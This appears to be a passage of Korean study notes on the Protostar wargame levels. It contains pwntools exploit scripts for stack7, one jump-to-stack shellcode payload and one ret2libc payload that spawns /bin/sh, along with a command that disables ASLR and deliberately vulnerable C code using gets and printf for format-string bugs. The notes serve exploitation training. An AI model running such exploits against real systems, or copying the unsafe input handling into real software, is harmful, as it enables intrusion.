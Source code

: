```python stack7.py

payload = 'A'*offset + jmp_rsp + buf

p = process(['stack7'])
p.sendline(payload)
p.interactive()
```
=======================================================

## 프로토스타 - 12. stack7 ROP 기초를 이용한 우회 방법

- 칼리리눅스 ASLR 끄기
> echo 0 | sudo tee /proc/sys/kernel/randomize_va_space


```python stack7.py

from pwn import * 

system = p32(0xf7e117e0)
dummy  = p32(0xFFFFFFFF)
bin_sh = p32(0xf7f50968)
ret    = p32(0x8048362)
offset = 80

payload = 'A'*offset + ret + system + dummy + bin_sh

p = process(['stack7'])
p.sendline(payload)
p.interactive()
```
=======================================================

## 프로토스타 - 13. 포맷 스트링 버그(format string bug)로 무엇을 할 수 있나 - 1. 허용되지 않은 데이터 읽어내기

```c format_printf.c

int main()
{
 printf("%d %d %d %d", 1, 2, 3, 4, 5, 6, 7, 8, 9, 10);
 return 0;
}

// format_gets.c
int main()
{ 
 char buf[64];
 gets(buf);
 printf(buf);
 return 0;
}
```
=======================================================
